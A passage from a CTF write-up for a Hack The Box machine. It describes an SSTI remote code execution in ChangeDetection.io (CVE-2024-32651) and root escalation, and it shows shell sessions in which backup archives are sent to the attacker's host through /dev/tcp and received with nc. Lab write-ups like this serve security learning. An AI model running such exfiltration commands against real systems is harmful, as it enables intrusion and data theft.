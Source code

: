 
### CVE-2024-32651

`ChangeDetection.io` has a Remote Code Execution (RCE) on `V0.45` when malicious ssti payload is injected into notification body section. When there is a change on the site we entered, the injected payload is executed on application.

Using [**this**](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/) payload on `exploit.db` and changing it a bit, gets a connection back.

Root password can be found on `history` tab. `su root` on `james` ssh shell with the password. Machine pwned!

## Fixed Root Way (Intended)

This box actually got fixed after a few weeks because finding `root pass` on a history tab was way too easy for a box in this level and we didn't even use `adam` user. So i'am going to show the intended path to getting `root`. 

### Shell as adam

Literally nothing except this `datastore` folder.

```console
root@a4b9a36ae7ff:/app# ls /
ls /
app  boot	dev  home  lib64  mnt  proc  run   srv	tmp  var
bin  datastore	etc  lib   media  opt  root  sbin  sys	usr
root@a4b9a36ae7ff:/app# cd /datastore
cd /datastore
root@a4b9a36ae7ff:/datastore# ls
ls
5205dd3b-8a75-45ab-822a-fad680ab83e1  secret.txt	      url-list.txt
Backups				      url-list-with-tags.txt  url-watches.json
root@a4b9a36ae7ff:/datastore# cd Backups
cd Backups
root@a4b9a36ae7ff:/datastore/Backups# ls
ls
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
```

Found 2 backup folders. Using `/dev/tcp/ip/port`, i can send the zip to my host and listen with `nc` and extract it.

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster]
└──╼ $ nc -l -p 9999 -q 1 > changedetection-backup-20240830194841.zip
```

```console
root@a4b9a36ae7ff:/datastore/Backups# cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.14.145/9999
<kup-20240830194841.zip > /dev/tcp/10.10.14.145/9999
```
Viewing the .zip file.
